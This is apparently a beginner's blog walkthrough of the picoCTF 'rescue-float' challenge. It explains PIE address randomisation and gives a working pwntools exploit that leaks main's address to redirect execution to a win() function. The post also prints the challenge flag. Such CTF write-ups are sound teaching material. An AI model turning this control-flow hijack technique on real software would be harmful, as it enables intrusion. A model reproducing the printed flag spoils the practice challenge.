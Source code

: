 ```yaml
---
title: 'PicoCTF Writeup #490'
date: 2025-08-19T14:20:15+07:00
draft: false
description: ''
tags: ['ctf', 'binary exploit']
---
```


## Binary Exploitation Challenge (PIE & Function Hijacking in picoCTF)

I’ve always been fascinated by low-level programming and security, but up until now I hadn’t really tried a **binary exploitation challenge**. Recently, I stumbled upon [this picoCTF challenge](https://play.picoctf.org/practice/challenge/490) called *“rescue-float”* — and let me tell you, it was a mix of confusion, discovery, and a little bit of victory at the end.

This post is a casual walkthrough of how I approached it as a beginner. If you’re into Linux, development, or cybersecurity, you’ll probably find this fun (or at least relatable if you remember your first binary exploitation adventure).



## The Challenge Setup

We’re given a binary and its source code. The task is to “try to get the flag” while keeping in mind that **PIE (Position Independent Executable)** is enabled.

When you run the binary, it prints the address of `main` and asks for an address to jump to:

```bash
$ ./vuln
Address of main: 0x55709267a33d
Enter the address to jump to, ex => 0x12345: 0x80
Your input: 80
Segfault Occurred, incorrect address.
```

On the remote server, the behavior is the same — except the addresses are totally different each time. That got me thinking: *what’s going on here?*



## First Observations

Digging into the binary with `strings`, I spotted something very interesting:

```
Segfault Occurred, incorrect address.
You won!
flag.txt
Cannot open file.
```

That `"You won!"` string was a big clue. Clearly, there’s a `win()` function hidden in there that we need to call instead of crashing.

So the real trick is figuring out the runtime address of `win()`.



## A Quick Detour: What’s PIE?

At first, I thought PIE was about pie (yes, 3.14 🍰). Turns out, PIE stands for **Position Independent Executable**.

In simple terms: every time you run the program, its code is loaded into a different random memory location. That means addresses of functions like `main()` or `win()` change constantly.

To exploit it, you need to:

1. Leak one known address (in this case, the program conveniently prints the address of `main()`).
2. Use that to calculate the **base address** of the binary in memory.
3. From there, compute the real address of `win()`.



## Peeking at the Source

Here’s the core of the challenge:

```c
int main() {
  signal(SIGSEGV, segfault_handler);
  setvbuf(stdout, NULL, _IONBF, 0);

  printf("Address of main: %p\n", &main);

  unsigned long val;
  printf("Enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```

Yep, the program literally takes your input, interprets it as a function pointer, and jumps there. If you guess wrong? *Segfault.* Guess right? *Profit.*



## Exploit Development (with Pwntools)

I used **pwntools**, which makes life much easier for challenges like this. The plan:

1. Leak the runtime address of `main`.
2. Compute the PIE base address.
3. Add the offset of `win()` to get its actual address.
4. Send that address back as input.

Here’s the final script:

```python
from pwn import *

HOST = "rescued-float.picoctf.net"
PORT = 63489  # (check challenge for actual port)

elf = context.binary = ELF("./vuln")
p = remote(HOST, PORT)

# Leak main()
p.recvuntil(b"Address of main: ")
leaked_main = int(p.recvline().strip(), 16)
log.info(f"Leaked main: {hex(leaked_main)}")

# Compute PIE base
pie_base = leaked_main - elf.sym['main']
elf.address = pie_base
log.info(f"PIE base: {hex(pie_base)}")

# Compute win()
win_addr = elf.sym['win']
log.success(f"win() at: {hex(win_addr)}")

# Send it
p.recvuntil(b"Enter the address to jump to")
p.sendline(hex(win_addr).encode())

# Get the flag
print(p.recvall().decode(errors="ignore"))
```

And boom — the output:

```
You won!
picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_cb52e722}
```



## Reflections

Honestly, this was overwhelming at first. I had to Google like crazy, read about PIE, function pointers, and pwntools usage. But that’s the fun part — these challenges force you to learn by doing.

Key takeaways for me:

* PIE randomizes addresses, but once you leak one function’s address, you can recover the rest.
* Binary exploitation isn’t always about buffer overflows. Sometimes, the vulnerability is right in front of you (like letting the user call any address they want).
* Pwntools is an absolute lifesaver.



## Final Thoughts

If you’re new to binary exploitation like me, this challenge is a fantastic first step. You’ll get a feel for memory addresses, PIE, and how attackers chain small leaks into bigger exploits.

Also, remember: it’s okay to feel lost at first. Every expert you admire in Linux, development, or security once stared at a disassembly dump and thought, *“What on earth is this?”*

The best advice? Keep poking, keep experimenting, and don’t be afraid to Google shamelessly.

